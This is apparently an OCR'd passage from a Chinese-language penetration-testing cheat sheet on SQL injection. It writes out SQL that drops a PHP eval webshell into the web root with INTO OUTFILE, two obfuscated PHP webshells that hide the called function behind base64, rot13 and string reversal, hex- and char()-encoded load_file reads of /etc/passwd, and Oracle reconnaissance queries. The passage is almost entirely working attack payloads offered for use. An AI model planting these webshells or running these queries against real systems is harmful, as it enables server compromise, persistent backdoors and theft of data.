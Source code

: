 ````
INSERT INTO a (cmd) VALUES('<?php eval($_POST['password']);?>');
导出一句话
SELECT cmd from a into outfile '/var/www/tmp/xxx.php';
删除表
Drop TABLE IF EXISTS a;
````
````
<?php @($_=base64_decode($_POST[1])),$_(hex2bin($_POST[2]))?>

<?php if(isset($_REQUEST['error'])&&isset($_REQUEST['limit'])){
    $page = $_REQUEST['error'];
    $limit = $_REQUEST['limit'];
    $func = base64_decode(str_rot13(strrev($limit)));
    $func(base64_decode(str_rot13(strrev($page))));
    exit;
````
### 2.文件读取
需要高权限
````
select load_file('绝对路径')

#读取/etc/passwd并用空格替换<
replace(load_file(0×2F6574632F706173737764),0×3c,0×20) 

replace(load_file(char(47,101,116,99,47,112,97,115,115,119,100)),char(60),char(32))
````

## 0x10 常用命令
### 1.oracle常用命令
````
1 当前用户权限 （select * from session_roles）
2 当前数据库版本 （ select banner from sys.v_$version where rownum=1）
3 服务器出口IP （用utl_http.request 可以实现）
4 服务器监听IP （select utl_inaddr.get_host_address from dual）
5 服务器操作系统 （select member from v$logfile where rownum=1）
6 服务器sid ( 远程连接的话需要， select instance_name fromv$instance;）
7 当前连接用户 （select SYS_CONTEXT ('USERENV', 'CURRENT_USER')from dual）
````
